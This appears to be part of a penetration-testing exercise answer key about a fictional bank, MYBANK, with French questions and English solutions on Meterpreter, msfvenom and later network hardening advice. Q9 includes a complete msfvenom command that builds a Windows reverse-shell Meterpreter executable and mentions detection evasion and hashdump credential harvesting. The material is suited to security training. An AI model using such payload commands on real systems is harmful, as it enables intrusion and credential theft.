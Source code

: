 
#### Question 9:

##### Q9.1: Quels sont les avantages d’un Meterpreter ?
- **Solution:**
  - Runs in memory, avoiding disk detection.
  - Provides an interactive shell for post-exploitation.
  - Supports advanced features like file uploads/downloads, privilege escalation, and credential harvesting (e.g., `hashdump`).
- **Justification:** Meterpreter’s in-memory execution and robust feature set make it a powerful tool for penetration testers.

##### Q9.2: Quel est le nom de l’outil sous Kali qui permet de créer des payloads personnalisés ?
- **Solution:** Msfvenom.
  - Command: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe`
- **Justification:** Msfvenom is a Metasploit tool for generating custom payloads, such as reverse shells.

---

#### Question 10:

##### Q10.1: Quels seraient vos conseils pour renforcer la sécurité du réseau et des systèmes MYBANK après avoir identifié ces vulnérabilités ?
- **Solution:**
  - **Patch Management:** Regularly update CMS (Drupal, Joomla) and other software to fix known vulnerabilities.
  - **Firewall Configuration:** Restrict open ports (e.g., block RDP port 3389 if not needed).
  - **Strong Password Policies:** Enforce complex passwords and use multi-factor authentication (MFA).
  - **Network Segmentation:** Isolate critical systems to limit lateral movement.
  - **Monitoring:** Implement intrusion detection systems (e.g., Snort) to detect suspicious activity.
  - **Disable Unnecessary Services:** Turn off unused services (e.g., FTP if not needed).
  - **Encrypt Data:** Use HTTPS and secure protocols for data transmission.
- **Justification:** These measures address common vulnerabilities, reducing the attack surface and enhancing MYBANK’s security posture.
